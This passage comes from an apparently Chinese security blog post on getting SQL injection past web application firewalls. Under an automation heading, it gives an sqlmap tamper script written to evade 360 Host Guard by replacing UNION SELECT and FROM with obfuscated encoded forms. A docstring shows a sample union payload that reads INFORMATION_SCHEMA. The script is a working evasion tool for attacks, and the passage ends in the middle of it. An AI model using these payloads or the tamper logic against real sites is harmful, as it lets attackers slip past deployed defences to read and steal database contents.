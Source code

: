 ![image](/images/posts/sql-injection-fuck-waf/alifuzz4.png)
### 0x3 自动化
以360主机卫士为例，编写sqlmap tamper脚本。  
正常无waf sqlmap联合查询如下：  
![image](/images/posts/sql-injection-fuck-waf/sqlmap.png)
开启主机卫士，放到浏览器调试，修改相关payload使其能正常运行。
最后tamper脚本如下：
```
from lib.core.enums import PRIORITY
from lib.core.settings import UNICODE_ENCODING
__priority__ = PRIORITY.LOW
def dependencies():
    pass
def tamper(payload, **kwargs):
    """
    Replaces keywords
    >>> tamper('UNION SELECT id FROM users')
    '1 union%23!@%23$%%5e%26%2a()%60~%0a/*!12345select*/ NULL,/*!12345CONCAT*/(0x7170706271,IFNULL(/*!12345CASt(*/COUNT(*) AS CHAR),0x20),0x7171786b71),NULL/*!%23!@%23$%%5e%26%2a()%60~%0afrOm*/INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x61646d696e AND table_schema=0x73716c696e6a656374--
    """
    if payload:
        payload=payload.replace("UNION ALL SELECT","union%23!@%23$%%5e%26%2a()%60~%0a/*!12345select*/")
        payload=payload.replace("UNION SELECT","union%23!@%23$%%5e%26%2a()%60~%0a/*!12345select*/")
        payload=payload.replace(" FROM ","/*!%23!@%23$%%5e%26%2a()%60~%0afrOm*/")
```
